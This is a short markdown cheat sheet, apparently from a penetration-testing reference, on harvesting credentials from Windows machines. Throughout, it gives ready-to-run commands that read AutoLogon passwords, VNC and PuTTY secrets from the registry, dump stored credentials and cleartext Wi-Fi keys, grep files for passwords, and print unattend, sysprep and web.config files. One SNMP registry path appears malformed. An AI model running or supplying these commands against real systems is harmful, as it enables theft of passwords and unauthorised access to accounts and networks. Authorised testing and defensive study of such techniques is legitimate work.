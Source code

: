 ## Credential Harvesting

### Windows Credential Harvesting

#### Registry Credential Locations
```cmd
# AutoLogon credentials
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AutoAdminLogon
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword

# Stored credentials
cmdkey /list
dir C:\Users\%USERNAME%\AppData\Roaming\Microsoft\Credentials\
dir C:\Users\%USERNAME%\AppData\Local\Microsoft\Credentials\

# VNC passwords
reg query "HKCU\Software\ORL\WinVNC3\Password"
reg query "HKLM\SOFTWARE\RealVNC\WinVNC4" /v password

# PuTTY sessions
reg query HKCU\Software\SimonTatham\PuTTY\Sessions

# SNMP parameters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# WiFi passwords
netsh wlan show profiles
netsh wlan show profile <SSID> key=clear
```

#### File-Based Credential Hunting
```cmd
# Search for password files
findstr /si password *.txt *.xml *.config *.ini
findstr /si pass *.txt *.xml *.config *.ini
dir /s *pass* == *cred* == *vnc* == *.config*

# Common locations
type "C:\sysprep.inf"
type "C:\sysprep\sysprep.xml"  
type "C:\unattend.xml"
type "C:\Windows\Panther\Unattend.xml"
type "C:\Windows\Panther\Unattend\Unattend.xml"

# IIS web.config files
dir /s web.config
findstr /si connectionstring web.config

# Database files
dir /s *.db *.mdb *.sqlite
```

